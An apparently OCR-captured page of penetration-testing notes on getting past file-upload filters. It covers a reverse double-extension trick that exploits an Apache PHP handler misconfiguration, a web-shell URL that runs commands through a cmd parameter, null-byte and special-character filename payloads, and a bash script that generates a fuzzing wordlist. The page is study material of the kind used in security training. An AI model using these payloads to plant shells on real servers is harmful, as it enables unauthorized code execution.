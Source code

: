 **Web Server Misconfiguration Bypass (Reverse Double Extension)**

If the Apache server has this config:

<pre><FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch></pre>

It treats any file containing .php, .phtml, or .phar as PHP — even if it doesn't end with those.

**Example: Upload a file named `shell.php.jpg`**

which passes the strict whitelist but will execute as PHP.

Try uploading:

`shell.php.jpg`

Visit:

`http://SERVER_IP:PORT/profile_images/shell.php.jpg?cmd=id`

And you get code execution.

**Character Injection Bypass**

You can insert special characters to trick filename checks:

Common payload characters:

`%20, %0a, %00, %0d0a, /, .\, ., …, :`

Example trick:

`shell.php%00.jpg`

On some PHP versions, the server treats this as shell.php, bypassing the whitelist.

On Windows servers:

`shell.aspx:.jpg`

will be treated as shell.aspx.

Bash script to generate these payloads for fuzzing:

<pre>for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done</pre>

Use this wordlist.txt with Burp Intruder to fuzz the upload and find bypasses.


# Type Filters

To improve security, many web servers and apps also check the actual content of the uploaded file to make sure it matches the expected type (like images, videos, documents). These checks usually don’t use blacklists or whitelists but look at the file content instead.
